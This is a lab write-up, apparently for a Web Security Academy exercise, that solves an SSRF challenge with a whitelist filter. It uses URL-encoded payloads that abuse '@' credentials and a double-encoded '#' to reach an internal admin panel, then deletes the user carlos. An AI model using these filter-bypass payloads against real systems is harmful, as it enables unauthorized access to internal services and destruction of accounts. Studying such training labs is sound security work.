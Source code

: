 
- **Author:** sonyahack1
- **Date:** 24.04.2025

---

## Intercept request

```html

POST /product/stock HTTP/2
Host: 0afc00f20402a3f8815d205a000100bd.web-security-academy.net
Cookie: session=***********************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0afc00f20402a3f8815d205a000100bd.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Origin: https://0afc00f20402a3f8815d205a000100bd.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```none

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1

```
> with 'Hackvertor' extension

```none
stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=14&storeId=1</@urlencode>
```

> I need to bypass an anti-SSRF filter like white-based input filter
> The server expects to receive a request with data that is allowed to be processed. For example, they are on a white list of allowed values.

> Ok. I will try some methods that probably work.

> I know that there is logic on the server side to check the domain that the request comes to. For example, if i try to change "stock.weliketoshop.net"
> to any other domain, then i will get an error from the server that the request should be made only to "stock.weliketoshop.net".

> For example:

> Request

```none

stockApi=<@urlencode>http://localhost/admin</@urlencode>

```
> Response

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 58

"External stock check host must be stock.weliketoshop.net"

```
> So. There are several ways that can help to trick the server filter and make it make a request to an allowed domain. It is important to remember that I am trying to
> bypass the filtering at the level of the application code itself, so that the server makes the request further away from itself, and then the request itself with the
> parsing function and url-encoding. 

> When a URL has '@', everything before the '@' is considered credentials (login and password). And everything after the '@' is considered the real host.
> The '#' symbol in the URL is the beginning of a fragment that is not sent at all. It is only for browsers

> Ok. add the '@' symbol before expected-host and send the request

```none

stockApi=<@urlencode>http://localhost@stock.weliketoshop.net:8080/product/stock/check?productId=14&storeId=1</@urlencode>

```

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

395

```
> Ok. Since the server handles such a request successfully, ignoring what is specified before the @ symbol, I just need to remove the extra part of the URL
> fragment and leave only 'http://localhost/admin'.

> add the double url-encoded "#" symbol, because after the request, decoding will be done during parsing.



```none
stockApi=http://localhost%2523@stock.weliketoshop.net/admin
```

![admin_interface](./screenshots/admin_interface.png)

> delete Carlos user


```none
stockApi=http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

![lab_solved](./screenshots/lab_solved.png)

